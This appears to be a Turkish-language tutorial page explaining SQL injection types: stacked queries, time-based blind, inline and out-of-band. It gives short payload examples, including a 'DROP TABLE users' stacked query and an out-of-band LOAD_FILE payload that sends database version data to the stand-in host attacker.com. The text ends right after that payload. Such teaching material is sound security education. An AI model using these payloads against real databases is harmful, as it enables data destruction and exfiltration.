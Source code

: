 
## Stacked queries

Example of `Stacked Queries`:

```sql
; DROP TABLE users
```


“Piggy-backing” olarak da bilinen SQL sorgularının stacking'i, güvenlik açığı olan SQL sorgusundan sonra ek SQL sorgularının enjekte edilmesidir. Sorgu olmayan ifadelerin (örneğin INSERT, UPDATE veya DELETE) çalıştırılması için bir gereksinim olması durumunda, stacking savunmasız platform tarafından desteklenmelidir (örneğin, Microsoft SQL Server ve PostgreSQL varsayılan olarak bunu destekler). SQLMap, gelişmiş özelliklerde (örn. işletim sistemi komutlarının yürütülmesi) yürütülen sorgu dışı ifadeleri çalıştırmak ve blind time-based SQLi türlerine benzer şekilde veri almak için bu tür güvenlik açıklarını kullanabilir.


## Time-based blind SQL Injection

Example of `Time-based blind SQL Injection`:

```sql
AND 1=IF(2>1,SLEEP(5),0)
```

Time-based blind SQL Enjeksiyonunun prensibi Boolean based blind SQL Enjeksiyonuna benzer, ancak burada yanıt süresi TRUE veya FALSE arasındaki ayrım için kaynak olarak kullanılır.

* TRUE yanıtı genellikle normal sunucu yanıtına kıyasla yanıt süresinde gözle görülür bir farkla karakterize edilir

* FALSE yanıtı, normal yanıt sürelerinden ayırt edilemeyecek bir yanıt süresiyle sonuçlanmalıdır

Time-based blind SQL Enjeksiyonu, TRUE ile sonuçlanan sorgular sunucu yanıtını geciktireceğinden, boolean tabanlı blind SQLi'den önemli ölçüde daha yavaştır. Bu SQLi türü, Boolean tabanlı blind SQL Injection'ın uygulanamadığı durumlarda kullanılır. Örneğin, savunmasız SQL deyiminin sorgu olmayan (örneğin INSERT, UPDATE veya DELETE), sayfa oluşturma işlemine herhangi bir etkisi olmayan yardımcı fonksiyonun bir parçası olarak yürütülmesi durumunda, Boolean tabanlı blind SQL Injection bu durumda gerçekten işe yaramayacağından, time-based SQLi gereklilik dışında kullanılır.


### Inline queries (Satır içi sorgular)

```sql
SELECT (SELECT @@version) from
```

Bu tür bir enjeksiyon, orijinal sorgunun içine bir sorgu yerleştirmiştir. Bu tür bir SQL enjeksiyonu nadirdir, çünkü savunmasız web uygulamasının belirli bir şekilde yazılması gerekir. Yine de, SQLMap bu tür SQLi de desteklemektedir.


## Out-of-band SQL Injection

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```
